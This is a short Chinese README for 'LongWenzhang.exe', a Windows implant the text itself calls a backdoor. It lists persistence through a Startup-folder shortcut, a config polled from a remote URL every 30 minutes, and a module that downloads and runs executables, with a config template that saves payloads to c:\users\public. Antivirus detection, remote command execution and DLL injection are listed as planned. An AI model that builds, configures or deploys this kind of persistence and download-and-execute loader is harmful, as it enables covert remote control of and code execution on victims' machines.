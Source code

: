 # 龙文章

> 炮灰团团长 <我的团长我的团>

![龙文章](img.jpg)

- 使用方式

```
LongWenzhang.exe 快捷方式名 配置文件地址
LongWenzhang.exe aaa http://127.0.0.1/1.txt
```
## 功能

### 权限维持 (已实现)

- 启动目录

    > 制作本身的快捷方式放入启动目录

### 信息收集 (未实现)

- 杀软检测

### 任务模块 (已实现)
- 文件下载
  
## 配置文件内容
- http://127.0.0.1/s.txt

```
//获取任务间隔时间(分钟) 默认:30
Sleep = 30
//是否退出程序
Exit = false || true
//毁灭,退出程序并删除快捷方式后门,杀软报毒,代码注释掉了
Destruction = false || true
//配置文件的网络路径
InfoUrl = 

# 文件下载模块
[DownLoad]
//下载文件的地址
url = http://127.0.0.1/s.exe
//下载的文件是否运行
execute = true || false
//执行文件是否需要参数,如果不需要参数,请设置为空
parameter = 
//文件下载保存路径
path = c:\users\public\1.exe


# 以下为计划实现的功能
//获取任务时候发送http请求的各种请求头
[http]

//执行的命令,并将命令结果返回,需要配置服务端接收消息/文件
[callback]
command = 
back = 

//下载远程dll文件并注入
[DLL]
//下载文件的地址
url = http://127.0.0.1/s.dll
//下载的文件是否注入
injection = true || false
//执行文件是否需要参数,如果不需要参数,请设置为空
parameter = 
//文件下载保存路径
path = c:\users\public\1.exe
```

![龙文章](http://i0.sinaimg.cn/ent/v/m/2009-04-02/U2184P28T3D2452355F326DT20090402144113.jpg)

